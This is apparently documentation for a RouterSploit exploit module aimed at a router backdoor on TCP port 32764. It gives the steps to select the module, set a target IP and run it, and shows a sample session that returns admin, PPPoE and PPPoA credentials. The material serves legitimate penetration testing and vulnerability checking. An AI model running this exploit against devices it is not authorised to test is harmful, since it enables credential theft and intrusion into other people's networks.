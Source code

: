 ## Description

Module exploits backdoor functionality that allows fetching credentials for administrator user. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/multi/tcp_32764_info_disclosure`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable administrative credentials are returned.

## Scenarios

```
rsf > use exploits/routers/multi/tcp_32764_info_disclosure
rsf (TCP-32764 Info Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (TCP-32764 Info Disclosure) > run
[*] Running module...
[+] Target is vulnerable
[*] Connection established

   Parameter          Value
   ---------          -----
   http_username      admin
   http_password      admin
   pppoe_username     username
   pppoe_password     1234567890
   pppoa_username     Guest
   log_login          0
```

